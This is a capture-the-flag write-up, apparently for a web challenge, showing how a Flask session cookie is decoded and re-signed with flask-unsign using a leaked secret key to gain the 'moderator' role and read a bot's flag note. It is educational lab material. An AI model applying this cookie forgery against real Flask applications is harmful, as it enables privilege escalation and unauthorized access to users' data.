 ## Initial Reconnaissance: Finding the Flag's Location
The source code for the bot service (`bot/app.mjs`) reveals that during its startup process, it logs in and creates a note containing `FLAG_STAGE_2`:
```js
...
await page.goto(`${baseUrl}/note/new`, {waitUntil: 'networkidle2'});
        await page.type('input[name="title"]', 'My juicy note');
        await page.type('textarea[name="content"]', `Here you got some juicy flag: ${FLAG_STAGE_2}`);
        await page.click('button[type="submit"]');
        await page.waitForNavigation({waitUntil: 'networkidle2'});
        console.log(`Admin logged in as ${randomUser} with password ${password} and created initial note.`);
...
```
This tells us the flag exists in a note owned by the bot. Our goal is to gain the necessary privileges to view notes created by other users.

## The Obstacle: Moderator-Only Access
Analyzing the Flask application's source code (`main.py`) shows that the `/moderator` endpoint displays all notes from all users2. Access to this endpoint is protected by the `@moderator_required` decorator.
```python
def is_mod():
    return g.user.get('role') in ['admin', 'moderator']

def moderator_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        if not is_mod():
            return 'Unauthorized - You must be a moderator or admin to access this page', 403
        return f(*args, **kwargs)
    return decorated

@app.route('/moderator')
@login_required
@moderator_required
def moderator():
    user_notes = [(nid, notes[nid]['title'], notes[nid]['content']) for nid in notes]
    return render_template('dashboard.html', user_notes=user_notes)
```
To access this page, our session's `'role'` must be either `'moderator'` or `'admin'`.

## Session Forgery with a Known Key
Our role and a username is stored in flask session header, that look like this:
```
.eJyrViotTi1SsqpWKsrPSVWygnB1wFReYi5IJDElNzNPqbYWAECoDrg.aFZOiw.R6tcTFj2sHLz8yLP1H6vlgFebVo
```
Let's use __flask-unsign__ (pipx install flask-unsign) to decode cookie:
```sh
flask-unsign --decode --cookie '.eJyrViotTi1SsqpWKsrPSVWygnB1wFReYi5IJDElNzNPqbYWAECoDrg.aFZOiw.R6tcTFj2sHLz8yLP1H6vlgFebVo'
```
We obtain:
```
{'user': {'role': 'user', 'username': 'admin'}}
```

We can't modify contents of cookies without FLASK_API_SECRET_KEY, but we have it from "intro web 1".  So, we need to sign new cookie with __'role': 'moderator'__:
```sh
flask-unsign --sign --cookie "{'user': {'role': 'moderator', 'username': 'admin'}}" --secret 'past here your FLASK_API_SECRET_KEY'
```

It gives us new cookie: 
```
eyJ1c2VyIjp7InJvbGUiOiJtb2RlcmF0b3IiLCJ1c2VybmFtZSI6ImFkbWluIn19.aFZznQ.qMmSdmsu3mOyhRhIV0pUy4f31EM
```

Using the browser's developer tools (Inspect -> Application -> Cookies), we replace the value of our current `session` cookie with the new one we just generated.

After refreshing the page with the forged cookie, our session is now recognized as having moderator privileges. We are automatically redirected to the `/moderator` dashboard, which lists all notes from all users, including the one created by the bot containing `FLAG_STAGE_2`.

